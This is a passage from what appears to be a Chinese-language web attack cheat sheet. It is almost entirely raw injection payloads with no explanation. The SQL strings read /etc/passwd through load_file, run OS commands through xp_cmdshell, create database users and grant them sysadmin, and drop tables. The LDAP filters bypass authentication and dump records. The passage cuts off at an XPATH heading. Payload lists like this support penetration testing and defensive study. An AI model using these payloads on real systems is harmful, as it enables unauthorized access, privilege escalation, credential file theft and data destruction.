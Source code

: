 ```
 @var select @var as var into temp end --<br>
 ' and 1 in (select var from temp)--
 ' union select 1,load_file('/etc/passwd'),1,1,1;
 1;(load_file(char(47,101,116,99,47,112,97,115,115,119,100))),1,1,1;
 ' and 1=( if((load_file(char(110,46,101,120,116))<>char(39,39)),1,0));
```

#### 主动SQL注入(SQI)

```
 '; exec master..xp_cmdshell 'ping 10.10.1.2'--
 CREATE USER name IDENTIFIED BY 'pass123'
 CREATE USER name IDENTIFIED BY pass123 TEMPORARY TABLESPACE temp DEFAULT TABLESPACE users;
 ' ; drop table temp --
 exec sp_addlogin 'name' , 'password'
 exec sp_addsrvrolemember 'name' , 'sysadmin'
 INSERT INTO mysql.user (user, host, password) VALUES ('name', 'localhost', PASSWORD('pass123'))
 GRANT CONNECT TO name; GRANT RESOURCE TO name;
 INSERT INTO Users(Login, Password, Level) VALUES( char(0x70) + char(0x65) + char(0x74) + char(0x65) + char(0x72) + char(0x70)
 + char(0x65) + char(0x74) + char(0x65) + char(0x72),char(0x64)
```

### LDAP注入

LDAP注入详情请见: [LDAP注入测试](https://www.owasp.org/index.php/Testing_for_LDAP_Injection_%28OWASP-DV-006%29)

```
 |
 !
 (
 )
 %28
 %29
 &
 %26
 %21
 %7C
 *|
 %2A%7C
 *(|(mail=*))
 %2A%28%7C%28mail%3D%2A%29%29
 *(|(objectclass=*))
 %2A%28%7C%28objectclass%3D%2A%29%29
 *()|%26'
 admin*
 admin*)((|userPassword=*)
 *)(uid=*))(|(uid=*
```

### XPATH注入
